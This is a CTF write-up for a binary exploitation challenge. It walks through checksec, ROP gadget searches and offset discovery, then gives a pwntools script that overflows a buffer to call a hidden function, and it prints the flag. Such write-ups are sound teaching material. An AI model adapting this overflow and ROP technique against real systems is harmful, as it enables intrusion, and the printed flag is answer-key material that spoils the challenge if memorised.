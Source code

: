 ### BabySploit

Task:  

```bash
nc 78.40.108.21 1338
```

of find binary in attachment.     

### analyze

First, we will check, what file we got using the `file`:    

```bash
file ./babysploit
```

![img](./img/2024-03-17_15-25.png)     

Our file is an `ELF` file, which means Executable and Linkable Format and is the most common format
for executables and shared libraries (`.so` files) on `UNIX` systems. Dynamic linking allows the binary to be
smaller, at the expense of having to ensure that the required dependencies exist in the target system that
the binary will be executed in.     

The `checksec` command shows us, the security aspects of the binary:    

```bash
checksec ./babysploit
```

![img](./img/2024-03-17_15-36.png)    

### exploitation

As we can see, `NX` is enabled. If `NX` is enabled, the stack is usually not executable, so you can only read and
write from that section.    

Use `ROPGadget` to find the instructions:

```bash
ROPgadget --binary ./babySploit | grep "pop rdi ; ret"
```

![img](./img/2024-03-17_15-39.png)    

or via `ropper`:    

```bash
ropper --file ./babySploit --search "pop rdi; ret"
```

![img](./img/2024-03-17_15-40.png)    

```bash
ropper --file ./babySploit --search "pop rsi; ret"
```

![img](./img/2024-03-17_15-41.png)    

Find offset:    

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![img](./img/2024-03-17_15-42.png)     

```bash
run
x/xg $rsp
pattern_offset 0x413b414144414128
```

![img](./img/2024-03-17_15-50.png)     

So, solution via python3 `pwntools`:    

```python
from pwn import *

exe = ELF('./babySploit')
context.binary = exe

# p = remote('78.40.108.21', 1338)
p = gdb.debug('./babySploit', '''continue''')

pop_rdi = 0x401196
pop_rsi = 0x401198
hacked = exe.symbols['hacked']
p.sendline(b'A' * 24 + p64(pop_rdi) + p64(0xdeadbeefdeadbeef) + p64(pop_rsi) + p64(0xc0debabec0debabe) + p64(hacked))

p.interactive()
```

Flag:    

```bash
nrzCTF{Y0U_H4V#_G00D_PrOGRESS}
```

*NX: - The NX (do not execute) bit is a technology used in CPUs that guarantees that certain memory
areas (such as the stack and heap) are not executable, and others, such as the code section, cannot
be written. It basically prevents us from using simpler techniques like we wrote a shellcode in the stack and then executed it.*    

